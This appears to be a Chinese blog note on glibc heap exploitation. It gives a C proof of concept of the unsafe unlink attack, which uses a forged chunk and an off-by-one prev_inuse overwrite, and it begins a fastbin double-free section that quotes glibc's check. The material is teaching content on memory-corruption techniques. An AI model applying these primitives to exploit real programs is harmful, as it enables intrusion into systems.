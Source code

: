 效果
 - FD->bk = BK   BK->fd = FD	


## poc

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    char* array[5];
    array[3]=malloc(0x98);
    array[4]=malloc(0x4f0);
    malloc(0x10);
    printf("array[3] %p\n",array[3]);
    *(long*)(array[3])=0;
    *(long*)(array[3]+8)=0x91;
    *(long*)(array[3]+16)=&array[0]; //fd
    *(long*)(array[3]+24)=&array[1]; //bk
    *(long*)(array[3]+0x90)=0x90; //chunk2 presize
    // edit chunk1
    *(array[3]+0x98)=0; //change preinuse
    //off by one
    free(array[4]);
    // FD->bk = BK;							      
    // BK->fd = FD;
    // change array[3]=fd==&array[0]
    printf("&array[0] %p\n",&array[0]);
    printf("array[3] %p\n",array[3]);
    return 0;
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/adb9ad0191214aedace6ff24f5f0fcda.png)
# Fastbin Attack
## Fastbin Double Free
- 先free chunk1
存在如下检查，但只检查了fastbin开始的
```c

    if (SINGLE_THREAD_P)
      {
	/* Check that the top of the bin is not the record we are going to
	   add (i.e., double free).  */
	if (__builtin_expect (old == p, 0))
	  malloc_printerr ("double free or corruption (fasttop)");
	p->fd = old;
	*fb = p;
      }
    else
      do
	{
	  /* Check that the top of the bin is not the record we are going to
	     add (i.e., double free).  */
	  if (__builtin_expect (old == p, 0))
	    malloc_printerr ("double free or corruption (fasttop)");
	  p->fd = old2 = old;
	}
      while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2))
```